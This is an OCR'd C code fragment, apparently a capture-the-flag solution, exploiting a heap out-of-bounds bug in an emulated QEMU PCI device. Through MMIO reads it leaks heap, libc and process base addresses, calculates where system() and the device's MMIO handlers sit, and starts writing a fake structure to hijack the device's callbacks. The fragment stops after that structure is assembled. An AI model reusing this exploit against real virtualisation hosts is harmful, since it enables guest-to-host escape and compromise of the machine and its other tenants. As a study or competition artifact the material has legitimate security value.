 ```c
int main(){
	int fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
	if (fd == -1)
		die("open");
    printf("fd: %d\n",fd);
    if (iopl(3) < 0) {
        die("failed to change i/o privilege! no root?");
    }
	iomem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0); // the size if set to 0x10000 then will be too large
    if (iomem == MAP_FAILED)
		die("mmap");

	printf("iomem @ %p\n", iomem);
    // test 是堆内存，所以有堆上 oob read/write 0x7ffff7333000 ~ 0x7ffff7538000 为 libc; IO_list_all: 0x7ffff75374c0; system: 0x7ffff738b750
    //  proc:  0x555555554000 ~ 0x555556f4f000
    // 0x118 处有堆地址 0x1020 + 0x200 + 0x50 的地方有一个 libc 地址
    iowrite32(0,0x118);
    size_t heap_leak = ioread32(8);
    iowrite32(0,0x118+4);
    size_t heap_leak_upper = ioread32(8);
    heap_leak = heap_leak | (heap_leak_upper << 32);

    printf("heap_leak: %p\n",heap_leak); // right
    iowrite32(0,0x1020 + 0x200 + 0x50);
    size_t libc_leak = ioread32(8);
    iowrite32(0,0x1020 + 0x200 + 0x50 + 4);
    size_t libc_leak_upper = ioread32(8);
    libc_leak = libc_leak | (libc_leak_upper << 32);
    printf("libc_leak: %p\n",libc_leak); // 0x7ffff7536b00

    iowrite32(0,0x130);
    size_t proc_leak = ioread32(8);
    iowrite32(0,0x130+4);
    size_t proc_leak_upper = ioread32(8);
    proc_leak = proc_leak | (proc_leak_upper << 32);
    printf("proc_leak: %p\n",proc_leak); // 0x555555554000
    size_t proc_base = proc_leak - 0x7b44a0;
    
    size_t mmio_write = proc_base + 0x3ae1b0;
    size_t mmio_read = proc_base + 0x3ae170;
    // print all three of them
    printf("proc_base: %p\n",proc_base);
    printf("mmio_write: %p\n",mmio_write);
    printf("mmio_read: %p\n",mmio_read);

    unsigned long long libc_base = libc_leak - 0x203b00;
    printf("libc_base : %p\n",libc_base);
    size_t system = libc_base + 0x58750;
    size_t heap_buffer_addr = heap_leak + 0x1cd8;
    printf("heap buffer address: %p\n",heap_buffer_addr);
    size_t opaque_addr = heap_buffer_addr - 0xbf8;
    size_t mmio_ops_addr = opaque_addr + 0xb30;

    // assemble fake struct
    iowrite64(0,system);
    iowrite64(8,mmio_write);
    iowrite32_wrapper(0x20,2);
    iowrite32_wrapper(0x40,1);
    iowrite32_wrapper(0x44,8);
    printf("assembled fake struct\n");

```